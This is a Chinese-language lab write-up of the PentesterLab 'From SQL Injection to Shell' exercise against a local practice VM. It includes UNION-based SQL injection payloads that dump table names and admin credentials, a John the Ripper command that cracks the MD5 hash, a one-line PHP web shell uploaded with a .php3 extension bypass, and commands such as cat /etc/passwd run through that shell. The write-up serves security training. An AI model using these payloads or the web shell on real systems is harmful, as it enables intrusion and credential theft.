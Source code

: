﻿##  从SQL注入到Shell

### 实验目的
在基于PHP的网站中使用SQL注入并使用它来访问管理页面，用这种访问，在目标服务器上获得代码执行。

### 实验步骤
- 指纹：收集有关Web应用程序和正在使用的技术的信息
- SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息
- 访问管理页面和代码执行：访问操作系统和运行命令的最后一步

### 实验环境

攻击者主机和靶机均为NAT网络
靶机使用下载的镜像
攻击者主机IP：10.0.2.22
靶机IP：10.0.2.21

![](image/1.png)

![](image/2.png)

### 实验过程

#### 1.收集指纹

* http请求测试
  * 攻击者主机浏览器设置代理

  ![](image/3.png)

  * 浏览器访问http://10.0.2.21

  ![](image/4.png)

  * burpsuite劫持

  ![](image/5.png)
  上图可以看出靶机使用的网络服务器、以及php版本信息

* https请求测试
  * 请求失败
  ![](image/6.png)

  * 使用工具wfuzz蛮力检测Web服务器上的目录和页面
    * 使用命令
    ```
    $ python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.21/FUZZ
    ```
    其中
    ```
    -c 表示高亮显示
    -z file，wordlist / general / big.txt 告诉wfuzz使用文件wordlists / general / big.txt作为字典来强制远程目录的名字。
    --hc 404 告诉wfuzz忽略响应，如果响应代码是404（Page not found）
    http：// vulnerable / FUZZ 告诉wfuzz用字典中的每个值替换URL中的FUZZ这个词。
    ```

    `没有成功`

#### 2.SQL注入的检测和利用

##### SQL注入检测
* SQL简介
 * retrieve information using the SELECT statement; `检索`
 * update information using the UPDATE statement; `修改`
 * add new information using the INSERT statement;`增加`
 * delete information using the DELETE statement.`删除`


* 发现sql漏洞存在：

  请求10.0.2.21/cat.php?id=3' 网页报错提示语法错误(单引号)以及数据库应为Mysql

  ![](image/8.png)

* 基于整数测试 用户提供的值被视为一个整数直接回显到SQL请求中

  ![](image/9.png)
  ![](image/10.png)

* 利用UNION开发SQL注入
  * 获取数据库版本号

  `.php?id=1 UNION SELECT 1,@@version,3,4`

  ![](image/11.png)

  * 获取系统当前用户名

  `.php?id=1 UNION SELECT 1,current_user(),3,4`

  ![](image/12.png)

  * 获取当前数据库名

  `.php?id=1 UNION SELECT 1,database(),3,4`

  ![](image/13.png)

##### 通过查看information_schema数据库获取更多信息

  >在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。


* 检索数据库中所有表名

  `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

  ![](image/14.png)

* 检索数据库中所有列名

  `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

  ![](image/15.png)

* 查看表名和列名的对应关系

  `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

  ![](image/16.png)

* 获取管理员密码

  `1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;`

  ![](image/17.png)

##### 破解密码

`8efe310f9ab3efeae8d410a8e0166eb2`

* 方法一：网上在线破解

  ![](image/18.png)

* 方法二：John the ripper密码破解工具

  ```
  命令：
  john password --format=raw-md5 --wordlist=dico --rules
  参数：
  password 告诉 John 什么文件包含密码的哈希值
  --format=raw-md5 告诉 John 密码哈希是 raw-md5 格式
  --wordlist=dico 告诉 John 使用文件 dico 作为字典
  --rules 告诉 John 尝试遍历每个可用的单词
   ```
  ![](image/19.png)

两种方法解密出的结果都是`P4ssw0rd`

####  3.访问管理页面和代码执行

* 根据破解的密码和用户名进入管理界面
![](image/20.png)

* 创建php脚本后点击上图界面的右侧`New Picture`按钮上传脚本文件
```php
<?php
system($_GET['cmd']);
?>
```
  * 直接上传php文件会显示失败因为不支持php文件的上传，将文件后缀名改为.php3之后可以成功上传
  ![](image/21.png)
  ![](image/22.png)

* 利用cmd执行任意命令利用脚本
  * 访问http：//vulnerable/admin/uploads/shell.php3？cmd = uname将在操作系统上运行命令uname并返回当前内核。
  ![](image/23_1.png)
  ![](image/23.png)

  * ls获取当前目录的内容
  ![](image/24.png)

  * 获取靶机系统用户列表
  `cat /etc/passwd`
  ![](image/25.png)
  ![](image/25_1.png)

####  参考资料

>From SQL Injection To Shell指导书https://pentesterlab.com/exercises/from_sqli_to_shell/course
